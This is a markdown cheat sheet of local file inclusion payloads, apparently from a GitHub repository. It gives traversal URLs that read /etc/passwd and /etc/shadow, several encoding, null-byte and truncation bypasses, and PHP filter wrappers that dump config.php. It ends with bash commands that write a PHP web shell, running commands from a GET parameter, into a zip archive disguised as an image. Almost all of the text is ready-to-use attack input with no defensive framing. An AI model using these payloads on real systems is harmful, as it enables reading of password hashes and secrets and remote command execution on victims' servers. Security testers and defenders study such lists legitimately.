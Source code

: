 # LFI Exploits
## Basic Payload
```HTTP
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

## URL Encoding
```HTTP
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

## Double Encoding
```HTTP
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

## UTF-8 Encoding
```HTTP
http://example.com/index.php?page=%c0%ae%c0%ae%c0%ae%c0%ae%c0%ae%c0%ae/etc/passwd
```

## Using Null Byte (%00)
```HTTP
http://example.com/index.php?page=../../../etc/passwd%00
```

## From an Existent Folder
```HTTP
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

## Path Truncation
```HTTP
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/./././././././././././././././././././
http://example.com/index.php?page=a/././././././././././././././././././././etc/passwd
```

## Using PHP Wrappers:
### Filter
```HTTP
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
### Zlib
```HTTP
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```
### Zip
```bash
echo "<pre><?php system (S_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php;
```

